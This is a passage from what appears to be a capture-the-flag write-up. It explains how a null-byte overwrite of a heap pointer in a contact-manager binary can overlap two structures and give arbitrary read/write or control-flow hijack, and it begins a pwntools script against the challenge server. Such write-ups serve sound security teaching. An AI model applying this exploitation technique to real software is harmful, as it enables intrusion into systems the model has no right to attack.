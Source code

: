 Since the `name` field in the `contact_t` struct is immediately followed by a
pointer, we can corrupt the pointer to the allocated `info_t` struct. Since
this binary is built for a little-endian architecture, this will allow us to
set the least-significant byte of the pointer to zero. The contact and info
structures are always allocated sequentially, so overwriting the least
significant byte of the second allocation may allow us to overlap the two
structures. Once overlapped, we should be able to use the reads to populate
`info.address` and `info.number` to set almost any value in the first
allocation to a value we control. In particular, the non-string fields
`contact.unknown` and `contact.info` seem like attractive overwrite targets. If
the binary uses these fields as pointers to read from, write to, or jump to, we
can have the potential for a very strong exploit primitive (arbitrary read,
arbitrary write, or control flow hijack).

If the objects line up as in the below diagram, we should have full control
over the `contact_t` struct after corrupting the `info_t*` pointer.

```
contact_t
0       16        20           80   100     120               180  200
        ---------------------------------------------
        |call_fptr| name                    |info_t*|
        ---------------------------------------------
info_t
--------------------------------------------------------------------
| address                      |pad1| number                  |pad2|
--------------------------------------------------------------------
```

We can use the `print_contact` method to verify our theory. This function will
simply print the name of our contact. If we send 100 a's for the name, this
should corrupt the pointer to the info struct, and hopefully cause an overlap.
Setting the address to 80 b's and the number to 80 c's will allow us to
determine if these fields overlap the name. If there's an overlap, the name
should be changed from 100 a's to some number of b's or c's. When we print the
name, we can use the amount of b's or c's displayed to compute the exact
offset where these structures overlap.

The following snippet implements this test.

```
#!/usr/bin/env python2

from pwn import *

conn = remote("on.acictf.com", 32840)

context.log_level = "debug"


def send_info(name, address, number):
    conn.recvuntil("name:")
    if len(name) < 100:
        conn.sendline(name)
    else:
        conn.send(name)

    conn.recvuntil("address:")
    if len(address) < 80:
        conn.sendline(address)
    else:
        conn.send(address)

    conn.recvuntil("number:")
    if len(number) < 80:
        conn.sendline(number)
```